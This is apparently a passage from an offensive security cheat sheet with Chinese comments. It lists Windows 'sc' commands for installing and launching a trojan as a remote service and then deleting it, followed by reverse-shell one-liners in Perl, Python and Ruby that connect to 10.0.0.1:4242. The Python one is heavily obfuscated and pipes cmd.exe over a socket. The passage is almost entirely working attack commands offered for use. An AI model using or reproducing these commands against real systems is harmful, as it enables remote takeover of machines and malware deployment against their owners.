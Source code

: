 ## SC

```bash
sc \\host create foobar binpath=“c:\windows\temp\foobar.exe”    # 新建服务,指向拷贝的木马路径
sc \\host start foobar                                          # 启动建立的服务
sc \\host delete foobar                                         # 完事后删除服务
```

---

# Other

## perl

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## python

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

## ruby

```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
